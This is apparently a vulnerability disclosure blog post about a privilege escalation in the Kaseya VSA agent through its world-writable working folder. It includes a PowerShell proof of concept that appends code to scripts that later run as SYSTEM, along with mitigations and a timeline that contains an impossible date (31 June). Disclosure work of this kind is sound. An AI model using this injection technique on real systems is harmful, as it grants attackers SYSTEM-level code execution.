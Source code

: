 ```yaml
---
layout: post
category: none
title: Attacking with nuget
---
```


<p>
Supply chain attacks through
</p>

<h3>Product</h3>
<h4>Windows 10. Agent version <= 9.5</h4>
<p>
Kaseya VSA provides a web application to manage deploy agents on an organisations systems.
Its a competitor to Microsoft system centre and has a tiny portion of the market when compared with similar products.
The installed package is made up of several tools and a controlling agent binary leveraging host capabilities such as PowerShell, WScript as well as a couple of executables like curl.
</p>
  
<h3>Vulnerability</h3>
<p>
This is not a new issue as such but more of the same in line with <a href="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
A a fix was put in place for the original CVE, however it was specific to binaries and not scripts.
The root cause for both issues is allowing a low privileged group excessive permissions to a folder used by a elevated process.
 
</p>

  <img src="/images/authenticated.png" />
  
<p>
The Kaseya agent runs as SYSTEM by default.
The agent also has a default working folder @ <code class="highlighter-rouge">C:\kworking\</code>.
It will pull scripts and binaries to this folder and execute them from disk from the controlling web application.
By default the <code class="highlighter-rouge">Authenticated Users</code> group has all rights to this folder.

Scripts are written to disk however they are not checked for integrity prior to execution.
So malicious code can be appended prior to execution.
</p>

<h3>Impact</h3>
<p>
Given that the VSA agent is used to manage assets, if the agent is found on a single machine within an organisation there is a good chance it has been deployed across the majority of the organisation. The vulnerability itself is reliant on code execution within the working folder and depends on scheduled tasks or ad-hoc script execution from the web interface, so the wait time can vary.

So this is case by case based on script usage via agents within the organisation.
</p>

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the default working directory.
When a ps1 script drops from a scheduled task or run from the VSA web application it will then append the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.

<h3>Mitigation</h3>
<p>
All scripts should be signed and verified prior to execution eliminating the ability to append arbitrary commands. Additionally Kaseya should remove the excessive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact on the Kaysea product.
</p>

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requesting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-06-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
  <li>02-09-2019 :: No response. Findings published</li>
</ul>
